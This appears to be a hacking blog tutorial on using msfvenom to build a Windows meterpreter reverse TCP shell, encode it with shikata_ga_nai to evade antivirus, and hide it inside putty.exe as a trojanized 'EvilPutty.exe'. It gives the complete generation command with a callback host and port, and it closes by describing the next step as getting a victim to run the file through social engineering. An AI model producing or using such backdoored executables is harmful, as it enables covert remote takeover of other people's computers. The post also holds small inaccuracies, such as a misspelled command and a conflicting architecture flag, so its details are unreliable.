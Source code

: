```yaml
---
layout: post
title:  "msfvenom walkthrough"
---
```

![alt text](http://www.interpretermag.com/wp-content/uploads/2014/03/hacker-grenade.jpg "Logo Title Text 1")

## How to create a payload with MSF Venom
Hello 1337 newbs. Today we will go over how to create and obfuscate a reverse TCP shell through MSF Venom. I will be using Kali 2.0 to complete this so feel free to follow along.

To launch a successful attack you will need to be able to bypass anti-virus software or other host-based protection for successful exploitation. The most effective way to avoid anti-virus detection on your target’s computers is to create your own customized back-door. We can leverage the built in ability to obfuscate payloads within commonly used files. In this example I will use putty.exe to supply the payload and we will use MSF Venom's encoder to hide the payload from Anti-virus.

#### Disclaimer - This method will probably not bypass an up to date anti-virus

### MSF Venom
msfvenom is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Note: msfvenom has replaced both msfpayload and msfencode as of June 8th, 2015.


```
$ msfvenom --help
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>

Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
```
    
Lets take a look at some useful options
    
* -p designates the Metasploit payload we want to use
* -e designates the encoder we want to use
* -a designates the architecture we want to use (default is x86)
* -s designates the maximum size of the payload
* -i designates the number of iterations with which to encode the payload
* -x designates a custom executable file to use as a template ```

## Encoders
Encoders are the various algorithms and encoding schemes that Metasploit can use to re-encode the payloads.
We can looks at these by typing

```
$ msfvemon -l encoders
Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/echo                      good       Echo Command Encoder
    cmd/generic_sh                manual     Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
    cmd/perl                      normal     Perl Command Encoder
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    cmd/printf_php_mq             manual     printf(1) via PHP magic_quotes Utility Command Encoder
    generic/eicar                 manual     The EICAR Encoder
    generic/none                  normal     The "none" Encoder
    mipsbe/byte_xori              normal     Byte XORi Encoder
    mipsbe/longxor                normal     XOR Encoder
    mipsle/byte_xori              normal     Byte XORi Encoder
    mipsle/longxor                normal     XOR Encoder
    php/base64                    great      PHP Base64 Encoder
    ppc/longxor                   normal     PPC LongXOR Encoder
    ppc/longxor_tag               normal     PPC LongXOR Encoder
    sparc/longxor_tag             normal     SPARC DWORD XOR Encoder
    x64/xor                       normal     XOR Encoder
    x86/add_sub                   manual     Add/Sub Encoder
    x86/alpha_mixed               low        Alpha2 Alphanumeric Mixedcase Encoder
    x86/alpha_upper               low        Alpha2 Alphanumeric Uppercase Encoder
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```
We will use x86\shikate_ga_nai in our example

## Building the Payload

I will start with our completed command and we then we will analyze each option in more detail.

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 20 -b '\x00'-a x64 LHOST=10.1.10.2 LPORT=443 -x ~/Windows/Programs/putty.exe -f exe > ~/payloads/windows/EvilPutty.exe
```
* -p windows/meterpreter/reverse_tcp
  * Payload to use. A list can be found by using the command ```msfconsole``` and then entering ```show payloads``` at the msfconsole prompt.
* -e x86/shikata_ga_nai
  * Encoder - This is the algorithm that is used to encode your shell code in attempts to bypass anti-vurs. shikata_ga_nai is a polymorphic shell code encoder. More can be read about it on the web.
* -i 20
  * Iterations - this is the number of time your payload will be encoded.
* -b 
  * Bad Characters - A bad character is simply a list of unwanted characters that can break the shell codes. Depending on the application and the developer logic there is a different set of bad characters for every program that we would encounter. Some common ones include
    * 00 for NULL
    * OA for Line Feed \n
    * OD for Carriage Return \r
    * FF for Form Feed \f
* -a x86
  * This is the architecture of the program we are hiding our payload in.
* LHOST=
  * Listening Host - This will be the IP that we want our reverse TCP shell to call back too.
* LPORT=
  * Listening Port - This will be the port our host is listening on.
* -x ~/windows/Programs/putty.exe
  * Template - This is the path to the program we want to use as a template.
* -f 
  * Format - This is the output format we want.
* \> ~/payloads/windows/EvilPutty.exe
  * This is the output file.
 
# Wrapping it up
Although this method might not work every time, there is a very good possibility that the victim might not have anti-virus installed or turned on their machine. The next step would be coming up with a way to get someone to run this payload. There are many ways to do this. Next time we will cover some ways to social engineer someone to run this payload on their machine for you.

